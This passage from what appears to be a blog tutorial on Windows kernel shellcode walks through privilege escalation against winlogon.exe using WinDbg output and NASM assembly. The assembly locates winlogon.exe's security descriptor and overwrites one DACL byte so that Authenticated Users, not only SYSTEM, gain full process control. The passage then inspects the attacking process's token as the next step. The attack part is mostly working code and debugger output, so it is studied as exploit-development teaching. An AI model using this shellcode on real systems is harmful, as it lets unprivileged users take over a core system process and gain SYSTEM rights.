 We now have winlogon.exe’s `_EPROCESS` in **`r9`**:
```python
0: kd> dt nt!_OBJECT_HEADER ffffa10df2e79080-30 SecurityDescriptor
   +0x028 SecurityDescriptor : 0xffffdd83`27a4feaf Void
```
![](imgs/blog/1WindowsKernelShellcode/20250222005635.png)
```nasm
...
	sub r8, 0x30								; get the _OBJECT_HEADER of winlogon.exe
	mov r8, [r8 + 0x28]							; move to the SecurityDescriptor parameter
	and r8, 0xfffffffffffffff0					; get the pointer to the object instead the fast reference pointer
	mov byte [r8+0x20+0x28], 0x0b				; _SECURITY_DESCRIPTOR + 0x20 (DACL start) + 0x28 (byte we want to change); 0x12 (SYSTEM) -> 0x0b (Authenticated Users; sid S-1-5-18 (SYSTEM) Full Process Control -> S-1-5-11 Full Process Control (Authenticated Users)
...
```

Now that we've changed the **DACL** of **`winlogon.exe`**, what's left? Allowing our process to have a handle on winlogon.exe
```python
dt nt!_EPROCESS ffffa10df89cd080 Token
   +0x4b8 Token : _EX_FAST_REF
```

```python
0: kd> dt nt!_TOKEN (poi(ffffa10df89cd080+0x4b8)&0xfffffffffffffff0)
   +0x000 TokenSource      : _TOKEN_SOURCE
   +0x010 TokenId          : _LUID
   +0x018 AuthenticationId : _LUID
   +0x020 ParentTokenId    : _LUID
   +0x028 ExpirationTime   : _LARGE_INTEGER 0x7fffff36`d5969fff
   +0x030 TokenLock        : 0xffffa10d`f9f72390 _ERESOURCE
   +0x038 ModifiedId       : _LUID
   +0x040 Privileges       : _SEP_TOKEN_PRIVILEGES
   +0x058 AuditPolicy      : _SEP_AUDIT_POLICY
   +0x078 SessionId        : 1
   +0x07c UserAndGroupCount : 0x10
   +0x080 RestrictedSidCount : 0
   +0x084 VariableLength   : 0x234
   +0x088 DynamicCharged   : 0x1000
   +0x08c DynamicAvailable : 0
   +0x090 DefaultOwnerIndex : 0
   +0x098 UserAndGroups    : 0xffffdd83`397d34f0 _SID_AND_ATTRIBUTES
   +0x0a0 RestrictedSids   : (null) 
   +0x0a8 PrimaryGroup     : 0xffffdd83`2eac7560 Void
   +0x0b0 DynamicPart      : 0xffffdd83`2eac7560  -> 0x501
   +0x0b8 DefaultDacl      : 0xffffdd83`2eac757c _ACL
   +0x0c0 TokenType        : 1 ( TokenPrimary )
```